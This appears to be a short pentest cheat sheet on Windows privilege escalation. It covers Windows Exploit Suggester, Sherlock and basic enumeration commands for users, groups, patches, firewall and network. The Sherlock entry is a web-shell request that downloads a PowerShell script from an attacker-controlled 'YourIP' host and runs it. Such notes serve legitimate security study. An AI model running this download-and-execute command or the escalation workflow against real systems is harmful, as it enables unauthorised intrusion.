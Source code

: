# Privilege Escalation Windows

We now have a low-privileges shell that we want to escalate into a privileged shell.

## Windows Exploit Suggester

```
windows-exploit-suggester.py --update
windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
The output shows either public exploits (E), or Metasploit modules (M) as indicated by the character value
```

## Sherlock

```
view-source:10.10.10.X/shell.php?cmd=echo IEX(New-Object Net.WebClient).DownloadString("http://YourIP:8000/Sherlock.ps1"); | powershell -noprofile -
```

## Basic Enumeration of the System

Before we start looking for privilege escalation opportunities we need to understand a bit about the machine. We need to know what users have privileges. What patches/hotfixes the system has.

```
# Basics
systeminfo
hostname

# Who am I?
whoami
echo %username%

# What users/localgroups are on the machine?
net users
net localgroups

# More info about a specific user. Check if user has privileges.
net user user1

# View Domain Groups
net group /domain

# View Members of Domain Group
net group /domain <Group Name>

# Firewall
netsh firewall show state
netsh firewall show config

# Network
ipconfig /all
route print
arp -A

# How well patched is the system?
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
